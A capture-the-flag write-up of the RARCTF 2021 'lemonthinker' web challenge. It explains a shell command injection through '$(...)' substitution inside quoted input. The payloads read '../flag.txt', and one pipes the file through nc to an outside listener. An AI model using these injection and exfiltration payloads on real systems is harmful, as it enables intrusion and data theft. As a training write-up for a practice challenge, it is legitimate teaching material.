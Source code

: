 ```yaml
---
layout: post
title: lemon thinker rarctf 2021 Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/lemon-thinker/Screenshot_1.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/lemon-thinker/Screenshot_1.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>lemon thinker rarctf 2021 Web Challenges Writeup </h1>  
 <!--more-->

Hello all , we hope all of you is well 
This writeup is from Abdoghazy , Mohamed Tarek
Today we will explain how we could solve lemonthinker web challenge from rarctf .

<img src="assets/img/writeups/lemon-thinker/Screenshot_1.png" /> 

As we See This is an input and "Generate Your lemonthinker" 
after trying it we got this photo
 
<img src="assets/img/writeups/lemon-thinker/Screenshot_2.png" /> 

note that the source code is attached so let's see what inisde it 
<img src="assets/img/writeups/lemon-thinker/Screenshot_3.png" /> 

As we see at line 24 it takes the name from me and passes it to the command that running another script
and there is no filtertion for the input that passes into the command so for sure we thought it's a command injection
note that the os is linux 
the command : python3 generate.py {filename} \"{text}\" 
the user input will be insted of {text} so we will inject there 

as always we tried these payloads : ;id , ||whoami , &&id

but unforently it's not working with us then we see that the input is passes into "" two double qoutes 
so our payloads didn't working and as we learn at bash we could execute commands from this "$(ls)"
and when we tried it we got the response from the server Alhamdullah

<img src="assets/img/writeups/lemon-thinker/Screenshot_4.png" /> 

note : we tried to get reverse shell but no waaay :(
so after this let's read the flag !!

note that we got that the flag is in ../flag.txt from the source 

so i tried :  $(cat ../flag.txt) and it returned this photo :

<img src="assets/img/writeups/lemon-thinker/Screenshot_5.png" /> 

so let's read the source of generate.py to know why 

<img src="assets/img/writeups/lemon-thinker/Screenshot_6.png" /> 

as you see at line 39 if the rarctf in the respone it will give us the image that we see
so i tried to use this command : $(rev ../flag.txt)  and got this response !

pic 7 

as you see we cannot read more than 18 char and there is many chars (it's more that 70 char :) )
so there is two ways to read the flag : 

First Way to use this command to read the flag part by part : $(cat ../flag.txt | cut -c 0-3) 

Then The Second Way and i think it's an amazing way xD 
after we solved it by the first way i had to travel to my Collage and when i on my way i got this idea ;)
i know when two hosts just connected togheter in same port by nc they could contact like a Chat :D 
so what if we tried to open listner on port 4444 and tried to sent the flag on it by this command 

$(rev ../flag.txt | nc ip port )
and we got the full flag by one Command Alhamdullah :D 3> 

last pic 

